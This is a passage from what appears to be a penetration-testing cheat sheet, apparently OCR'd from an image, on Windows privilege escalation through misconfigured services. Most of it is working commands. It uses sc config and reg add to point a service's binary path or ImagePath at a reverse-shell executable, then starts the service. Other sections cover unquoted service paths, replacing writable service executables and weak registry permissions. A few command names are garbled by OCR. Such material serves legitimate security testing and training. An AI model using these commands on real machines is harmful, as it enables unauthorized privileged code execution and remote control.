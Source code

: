 #### Binary Hijacking

```bash
#Identify service from winpeas
icalcs "path"  #F means full permission, we need to check we have full access on folder
sc qc SERVICE_NAME  #find binarypath variable
sc config SERVICE_NAME binpath= "C:\\temp\\reverse.exe"  #change the path to the reverseshell location
sc start SERVICE_NAME
```

#### Unquoted Service Path

```bash
wmic service get name,pathname | findstr /i /v "C:\\\\" | findstr /i /v """  #Display services with unquoted paths
#Check the Writable path
icalcs "path"
#Insert the payload in writable location and which works.
sc start SERVICE_NAME
```

#### Insecure Service Executables

In Winpeas look for a service which has the following

```
File Permissions: Everyone [AllAccess]
```

Replace the executable in the service folder and start the service

```bash
sc start SERVICE_NAME
```

#### Weak Registry permissions

Look for the following in Winpeas services info output

```
HKLM\\<service> (Interactive [FullControl])  #This means we can edit the registry value
```

```bash
accesschk /acceptula -uvwqk HKLM\\System\\CurrentControlSet\\Services\\SERVICE  #Check for KEY_ALL_ACCESS
#Service Information from regedit, identify the variable which holds the executable
reg query HKLM\\SYSTEM\\CurrentControlSet\\services\\SERVICE
reg add HKLM\\SYSTEM\\CurrentControlSet\\services\\SERVICE /v ImagePath /t REG_EXPAND_SZ /d C:\\temp\\reverse.exe /f  #Imagepath is the variable here
net start SERVICE
```

#### DLL Hijacking

_Reference for DLL Hijacking techniques_
